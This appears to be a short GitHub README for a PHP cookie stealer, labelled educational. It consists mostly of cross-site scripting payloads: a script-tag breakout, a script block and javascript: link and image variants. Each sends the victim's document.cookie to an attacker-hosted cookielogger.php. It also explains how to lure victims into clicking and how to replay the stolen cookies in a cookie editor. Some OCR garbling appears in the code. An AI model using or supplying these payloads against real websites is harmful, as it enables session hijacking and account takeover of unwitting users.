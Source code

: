 Some cooklie stealing using php\n
**ONLY FOR EDUCATIONAL PURPOSES**

Some examples of using them:
```
"><script language= "JavaScript">document.location="http://yoursite.com/whateveryouwant.php?cookie=" + document.cookie;document.location="http://www.whateversite.com"</script>
```
yoursite.com is the server you’re hosting your cookie stealer and log file on, and whateversite.com is the vulnerable page you’re exploiting.

The victim just enters the page:
```
<script language="Java script">
document.location="http://www.yourhost.com/cookielogger.php?cookie=&quot; + document.cookie;
</script>
```

Your can also trick the victim into clicking a link that activates javascript.
```
<a href="java script:document.location='http://www.yourhost.com/cookielogger.php?cookie='+document.cookie;">Click here!</a>
```

Clicking an image also can activate the script.For this purpose you can use the below code.
```
<a href="java script:document.location='http://www.yourhost.com/cookielogger.php?cookie='+document.cookie;"&gt;
<img src="URL OF THE IMAGE"/></a>
```

To use the information download a cookie editor such as firebug.